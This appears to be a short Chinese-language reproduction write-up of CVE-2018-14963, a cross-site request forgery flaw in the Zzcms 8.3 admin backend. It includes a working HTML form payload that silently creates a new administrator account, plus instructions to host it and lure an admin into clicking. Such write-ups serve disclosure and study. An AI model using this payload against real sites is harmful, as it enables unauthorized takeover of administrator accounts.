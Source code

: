 （CVE-2018-14963）Zzcms 8.3 csrf
================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
          <input type="hidden" name="groupid" value="1" />
          <input type="hidden" name="admins" value="123" />
          <input type="hidden" name="passs" value="123" />
          <input type="hidden" name="passs2" value="123" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![](./.resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId24.png)

点击链接之后：

![](./.resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId25.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>
